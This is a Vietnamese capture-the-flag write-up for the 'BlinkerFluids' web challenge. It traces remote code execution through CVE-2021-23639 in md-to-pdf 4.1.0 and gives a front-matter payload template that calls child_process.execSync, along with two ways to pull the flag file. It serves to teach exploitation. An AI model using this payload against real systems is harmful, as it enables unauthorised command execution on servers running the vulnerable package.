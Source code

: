 # CHALLENGE DESCRIPTION

Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

**Tags:** `javasciprt`, `CVE-2021-23639`, `source-code-analysis`

# Quick Preview

Đây là một bài White Box, chúng ta được cung cấp source code của Web App.

Sau khi giải nén folder `BlinkerFluids.zip`, ta được folder có cấu trúc như sau: 

```shell
BlinkerFluids
└── web_blinkerfluids
    ├── challenge
	│   ├── helpers
	│   │   └── MDHelper.js
	│   ├── routes
	│   │   └── index.js
	│   ├── static
	│   │   ├── invoices
	│   │   ├── css
	│   │   ├── images
	│   │   └── js
	│   ├── views
	│   │   └── index.html
	│   ├── database.js
	│   ├── index.js
    │   └── package.json
    ├── config
	│   └── supervisord.conf
	├── build-docker.sh
	├── Dockerfile
	└── flag.txt
```

Đây là giao diện của website.

![](../../attachments/Pasted%20image%2020220727132908.png)

Chức năng chính của nó:
+ cho phép tạo, lưu và xoá hoá đơn 
+ convert hoá đơn thành file pdf

Thực hiện tạo mới một hoá đơn, syntax của hoá đơn này được viết bằng `markdown`.

![](../../attachments/Pasted%20image%2020220727133029.png)

Sau khi tạo hoá đơn thành công, mình sẽ được redirect về index của website.

![](../../attachments/Pasted%20image%2020220727133742.png)

Đây là khi mình click vào phần Export PDF của hoá đơn, sẽ direct sang một url có cấu trúc như sau:

`http://46.101.2.216:30568/static/invoices/f0daa85f-b9de-4b78-beff-2f86e242d6ac.pdf`

![](../../attachments/Pasted%20image%2020220727133007.png)

→ Chức năng của trang web cũng khá thú vị ha. 

# Source Code Analysis
Khi vào folder challenges, mình để ý thấy trong file `package.json` ở mục dependencies có xuất hiện một package bị lỗi `md-to-pdf` version `4.1.0`.  [CVE-2021-23639](https://github.com/advisories/GHSA-x949-7cm6-fm6p)

> Về cơ bản, package này cho phép ta thực hiện RCE thông qua việc convert sang PDF từ content của markdown.

```json
{
<--SNIP-->

	"dependencies": {
		"express": "4.17.3",
		"md-to-pdf": "4.1.0",
		"nunjucks": "3.2.3",
		"sqlite-async": "1.1.3",
		"uuid": "8.3.2"
	},
	
<--SNIP-->
}
```

# Exploit

Bắt gói tin POST khi thực hiện thêm hoá đơn bằng Burpsuite

![](../../attachments/Pasted%20image%2020220727134538.png)

Bây giờ chỉ cần replace `"dumb"` thành payload có cấu trúc như sau:

```javscript
---jsn\n((require('child_process')).execSync('<command>'))\n---RCE
```

Tới đây mình có 2 cách exploit:

## Solution 1

Để ý rằng các invoice sẽ được lưu tại một folder nhất định nào đó. Đọc file `MDHelper.js` sẽ cho ta biết được đó là folder `static/invoices/`

```javascript
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] }
                }
            );
            resolve(id);

        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```

Lợi dụng điều này mình sẽ thực hiện tạo một file mới nằm trong `static/invoices` có nội dung của flag

![](../../attachments/Pasted%20image%2020220727140155.png)

Thực hiện tạo file thành công 

![](../../attachments/Pasted%20image%2020220727140231.png)

Bây giờ chỉ cần truy cập vào endpoint để lấy flag thôi

![](../../attachments/Pasted%20image%2020220727140800.png)

## Solution 2
Đọc trực tiếp trên file PDF sau khi render.

![](../../attachments/Pasted%20image%2020220727141643.png)

Thông báo thành công 

![](../../attachments/Pasted%20image%2020220727141359.png)

Truy cập đến invoice mà mình đã tạo

![](../../attachments/Pasted%20image%2020220727141533.png)

Tương tự, bây giờ mình đọc file flag là xong.